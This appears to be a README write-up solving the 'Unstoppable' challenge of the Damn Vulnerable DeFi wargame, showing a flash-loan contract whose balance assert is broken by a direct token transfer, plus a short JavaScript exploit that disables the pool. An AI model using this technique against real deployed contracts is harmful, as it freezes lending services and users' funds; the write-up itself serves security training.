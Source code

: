 ![](cover.png)

# Damn Vulnerable DeFi solutions (v2)

Challenges created by [@tinchoabbate](https://twitter.com/tinchoabbate) at [damnvulnerabledefi.xyz](https://www.damnvulnerabledefi.xyz/)

## #1 - Unstoppable

The goal of this challenge is to disable flash loan lender contract. Some kind of DoS attack.

Vulnerability is inside **flashLoan()** function.

```solidity
function flashLoan(uint256 borrowAmount) external nonReentrant {
  require(borrowAmount > 0, "Must borrow at least one token");

  uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
  require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

  // Ensured by the protocol via the `depositTokens` function
  assert(poolBalance == balanceBefore);

  damnValuableToken.transfer(msg.sender, borrowAmount);

  IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);

  uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
  require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
}
```

In order to disable contract from offering flash loans, we need to break one of safety checks inside the function.

Particiullary interesting line:

```solidity
// Ensured by the protocol via the `depositTokens` function
assert(poolBalance == balanceBefore);
```

The contract is making sure that contract balance of DVT token (`balanceBefore`) is matching the inner contract logic balance that is updated when user deposits token using `depositTokens` function (`poolBalance`).

We can exploit this by transferring DVT tokens to contract with ERC20 `transfer` function.

Solution code:

```js
it('Exploit', async function () {
  /** CODE YOUR EXPLOIT HERE */
  await this.token
    .connect(attacker)
    .transfer(this.pool.address, INITIAL_ATTACKER_TOKEN_BALANCE);
});
```

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION.
